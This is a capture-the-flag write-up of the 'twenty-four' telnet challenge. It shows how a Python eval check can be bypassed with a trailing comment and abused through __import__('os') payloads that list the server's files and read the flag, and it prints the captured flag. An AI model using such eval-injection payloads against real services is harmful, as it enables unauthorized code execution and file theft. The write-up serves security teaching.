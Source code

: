 # Twenty-four

> You can do primary school math, right?

## Write-up

`twenty-four` was a telnet challenge. The source code of this challenge is [here](twenty-four.py) for whoever is interested, but you don't need it to solve the challenge. Paying close attention to the errors should suffice. If you connected, you would be greeted with the following message (the task would be different):

```
In this game, you need to combine four numbers using standard mathematical operators ("+", "-", "*", "/", "**") to get 24 as a result.

Example question: [1 1 5 5]
Example solution: -1 + 1 * 5 * 5
Task: [1, 2, 4, 11]
```

Your first instinct would probably be to solve it, but since the challenge type was *exploit*, this was of course not what you were supposed to do. For those who did write a solver: congratulations, you could play an infinitely long game against the computer, since the game was running in a `while True:` loop ;-)

So, what would happen if we'd insert invalid solutions? Let's try:

```
Enter solution: 1+2+4+11
Wrong :( Try again.
Task: [1, 2, 4, 11]
Enter solution: foo
You didn't use all numbers!
Task: [1, 2, 4, 11]
Enter solution: 1 + 2 + 4 + 11 + foo
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1, in <module>
NameError: name 'foo' is not defined
```

This is interesting! We got a `NameError` in Python, which means that "[a local or global name is not found](https://docs.python.org/3/library/exceptions.html#NameError)". It appears that `foo` is interpreted as a Python variable!

If we look at the nice stack trace we also got, we could see why this happens: the game checks if your solution is correct by evaluating it with `eval`! For those who don't know `eval`: it is a red flag indicating remote code execution. [Check the documentation](https://docs.python.org/3.6/library/functions.html#eval) for more information.

So now that we know we can insert code, wat can we do with it? Let's start again and try to find out what's in our current working directory:

```
Task: [2, 11, 11, 11]
Enter solution: os.listdir()
You didn't use all numbers!
Task: [2, 11, 11, 11]
Enter solution: os.listdir() # 2 11 
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We couldn't just call `os.listdir()`, because the game checks that you've used all your numbers. Luckily, this is really easy to bypass, by adding a comment with the necessary numbers at the end. We didn't even need to list the 11 three times, so the checking must be really sloppy! Can we import `os`?

```
Task: [9, 10, 11, 13]
Enter solution: import os; os.listdir() # 9 10 11 13
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1
    import os; os.listdir() # 9 10 11 13
         ^
SyntaxError: invalid syntax
```

That's strange. [This helpful StackOverflow answer](https://stackoverflow.com/a/17136796) tells us that `eval` only works for expressions, but `import` is a statement. That's a pity! Now what? The same StackOverflow answer also tells us:

> In Python 2.6 and earlier use `__import__`

It turns out that this method still works in Python 3 (which is used for this challenge), so we can write the following:

```
Task: [4, 9, 10, 12]
Enter solution: __import__('os').listdir() # 4 9 10 12
Wrong :( Try again.
Task: [4, 9, 10, 12]
Enter solution: print(__import__('os').listdir()) # 4 9 10 12
['flag', 'solvable-combinations.txt', 'twenty-four.py']
Wrong :( Try again.
```

Of course, `listdir()` only returns a string (it is an expression after all), so we must print it. This worked! We can now see all files in the current directory! And guess what: there's a file called `flag`. Nice! Can we get the contents?

```
Task: [4, 5, 7, 10]
Enter solution: print(open('flag', 'r').readlines()) # 4 5 7 10   
['FLG{29ZWhpVeETuswAM7QaJpnqqmFdcLMPLTYMTe93eDvTWN}\n']
Wrong :( Try again.
```

Turns out the file only contains one line, and it is the flag. Mission accomplished!
